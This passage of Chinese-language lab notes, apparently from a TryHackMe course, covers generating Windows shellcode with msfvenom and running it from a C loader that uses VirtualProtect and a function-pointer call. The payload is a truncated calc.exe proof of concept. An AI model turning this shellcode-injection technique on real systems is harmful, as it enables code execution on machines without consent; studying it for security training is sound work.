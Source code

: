 ```
user@AttackBox$ gcc -g -Wall -z execstack thm.c -o thmx
user@AttackBox$ ./thmx
THM,Rocks!
```

##### 3. 使用公共工具生成 Shellcode (Generating Shellcode with Public Tools)

如 Metasploit 框架的 `msfvenom` 工具，可以方便地生成针对不同平台、架构和功能的 Shellcode。

- **优点**: 无需手动编写汇编，快速生成。
- **缺点**: 由公共工具生成的 Shellcode 签名通常广为人知，极易被 AV 软件检测到。

**Msfvenom 示例 (Windows 执行 calc.exe)**:

Bash

```
user@AttackBox$ msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -f c
# 输出:
# No encoder specified, outputting raw payload
# Payload size: 193 bytes
# Final size of c file: 835 bytes
unsigned char buf[] =
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
// ... (shellcode bytes) ...
"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";
```

这个 Shellcode 的功能是在 Windows 系统上执行 `calc.exe` (计算器程序)。计算器常被用作概念验证，如果成功弹出，则证明 Shellcode 执行技术有效。

##### 4. Shellcode 注入与执行 (Windows 示例) (Shellcode Injection and Execution)

Shellcode 注入技术旨在修改目标程序的执行流程，使其执行攻击者提供的代码。以下是在 C 代码中执行先前由 `msfvenom` 生成的 `calc.exe` Shellcode 的示例 (Windows 环境)：

C

```
#include <windows.h> // For VirtualProtect

// Shellcode generated by msfvenom for windows/exec cmd=calc.exe
char stager[] = {
    "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30",
    // ... (rest of the shellcode bytes) ...
    "\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00"
};

int main() {
    DWORD oldProtect;
    // Make the memory region containing the shellcode executable
    VirtualProtect(stager, sizeof(stager), PAGE_EXECUTE_READ, &oldProtect);

    // Cast the shellcode address to a function pointer and call it
    int (*shellcode_func)() = (int(*)())(void*)stager;
    shellcode_func();

    return 0;
}
```
